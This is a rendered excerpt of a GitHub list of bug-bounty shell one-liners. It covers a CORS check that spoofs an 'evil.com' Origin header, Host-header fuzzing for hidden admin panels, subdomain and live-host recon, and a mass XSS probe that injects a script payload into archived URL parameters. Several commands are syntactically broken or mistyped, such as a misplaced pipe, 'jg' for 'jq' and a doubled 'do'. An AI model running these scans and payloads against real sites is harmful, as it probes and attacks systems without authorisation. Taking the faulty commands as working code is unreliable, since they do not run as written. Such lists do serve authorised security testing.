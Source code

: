 ### CORS Misconfiguration

[](https://github.com/dwisiswant0/awesome-oneliner-bugbounty#cors-misconfiguration)

> @manas_hunter

```shell
site="URL"; gau "$site" | while read url; do target=$(curl -sIH "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found] echo $url; else echo Nothing on "$url"; fi; done
```

### Find Hidden Servers and/or Admin Panels

[](https://github.com/dwisiswant0/awesome-oneliner-bugbounty#find-hidden-servers-andor-admin-panels)

> @rez0__

```shell
ffuf -c -u URL -H "Host: FUZZ" -w FILE.txt 
```

### Recon Using api.recon.dev

[](https://github.com/dwisiswant0/awesome-oneliner-bugbounty#recon-using-apirecondev)

> @z0idsec

```shell
curl -s -w "\n%{http_code}" https://api.recon.dev/search?domain=HOST | jg .[].domain
```

### Find Live Host/Domain/Assets

[](https://github.com/dwisiswant0/awesome-oneliner-bugbounty#find-live-hostdomainassets)

> @_YashGoti_

```shell
subfinder -d HOST -silent | httpx -silent -follow-redirects -mc 200 | cut -d '/' -f3 | sort -u
```

### XSS without gf

[](https://github.com/dwisiswant0/awesome-oneliner-bugbounty#xss-without-gf)

> @HacktifyS

```shell
waybackurls HOST | grep '=' | qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -sk --path-as-is "$host" | grep -qs "<script>alert(1)</script>" && echo "$host is vulnerable"; done
```

### Get Subdomains from IPs

[](https://github.com/dwisiswant0/awesome-oneliner-bugbounty#get-subdomains-from-ips)

